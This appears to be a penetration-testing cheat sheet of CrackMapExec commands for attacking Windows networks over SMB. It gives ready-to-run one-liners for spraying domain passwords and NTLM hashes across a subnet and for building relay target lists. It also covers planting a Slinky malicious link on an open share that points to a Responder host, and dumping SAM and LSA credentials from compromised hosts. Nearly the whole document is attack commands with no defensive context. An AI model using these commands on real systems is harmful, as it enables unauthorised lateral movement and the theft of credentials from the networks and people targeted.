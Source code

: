 Spray the network using SMB with domain credentials:
~~~bash
crackmapexec smb 10.0.0.0/24 -u username -d domain -p Password
~~~

Spray the network using SMB with a local user and NTLM hash:
~~~bash
crackmapexec smb 10.0.0.0/24 -u username -H hash --local-auth
~~~

Use the Slinky SMB module to set up a malicious link on an unauthenticated share:
~~~bash
crackmapexec smb <target ip> -u Guest -p “” -M slinky -o server=responder_ip name=some_unique_name
~~~

Generate a SMB target list:
~~~bash
crackmapexec smb <CIDR> --gen-relay-list targets.txt
~~~

Spray a target list with a local admin's hashed NTLM credentials:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth
~~~

Spray a target list with a local admin's hashed NTLM credentials and dump SAM (LOCAL) on any target that the user has Admin access to:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
~~~

Spray a target list with a local admin's hashed NTLM credentials and dump LSA (Domain/Cached) on any target that the user has Admin access to:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
~~~

Generate a Relay list based upon prior scan results and tee the command output to a new file:
~~~bash
crackmapexec smb ../scans/nmap-grep-[date]/smb-hosts.txt --gen-relay-list cme_relay.txt | tee cme.out
~~~